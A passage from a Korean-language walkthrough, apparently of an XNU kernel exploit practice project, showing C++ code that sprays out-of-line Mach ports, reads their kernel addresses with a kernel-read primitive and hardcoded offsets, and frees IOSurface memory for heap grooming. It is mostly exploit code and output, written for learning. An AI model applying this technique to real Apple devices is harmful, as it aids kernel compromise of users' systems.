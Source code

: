```cpp
    if (ret) {
        printf("[-] Failed to send ool ports message\n");
        goto err;
    }
```

OOL ports 주소를 찾는법은 다음과 같다.

```cpp
uint64_t find_oolports_from_port(mach_port_name_t port) {
    uint64_t port_kaddr = find_port(port);

    //https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2019-8605/dangling_kptr_reuse/ool.c#L62
    uint32_t off_ipc_port_ikmq_base = 0x40;
    uint64_t ikmq_base = kread64(port_kaddr + off_ipc_port_ikmq_base);
    // INFO("ikmq_base: 0x%llx\n", ikmq_base);

    uint32_t off_ipc_kmsg_ikm_header = 0x18; // p/x offsetof(struct ipc_kmsg, ikm_header)
    uint64_t ikm_header = kread64(ikmq_base+off_ipc_kmsg_ikm_header);

    uint64_t off_mach_msg_ool_ports_desc_address = 0x24; //?
    return kread64(ikm_header + off_mach_msg_ool_ports_desc_address);
}
...
    #if ENABLE_HELPER
    //helper; obtain ool ports addr
    uint64_t oolports_kptr = find_oolports_from_port(ool_message_port);
    INFO("ool_message_port(port=0x%x)'s msgdata_kptr = 0x%llx\n", ool_message_port, oolports_kptr);
    // khexdump(kread64(kmsgdata_kptr+4), 0x1000);
    // getchar();
    //
    #endif
```

아래와 같이 OOL ports가 특정주소에 위치하게 된다.

```cpp
[*] ool_message_port(port=0x1d03)'s msgdata_kptr = 0xffffffe0db810000
```

![image.png](pics/image%205.png)

## 6. (1번 과정에서했던) IOSurface를 활용하여 할당된 82MB 커널메모리 해제

IOSurface에서 제공하는 메소드인 `IOSurfaceRootUserClient::remove_value` 를 이용하여 1번 과정에서 할당시켰던 82M 크기의 데이터를 해제시킨다.

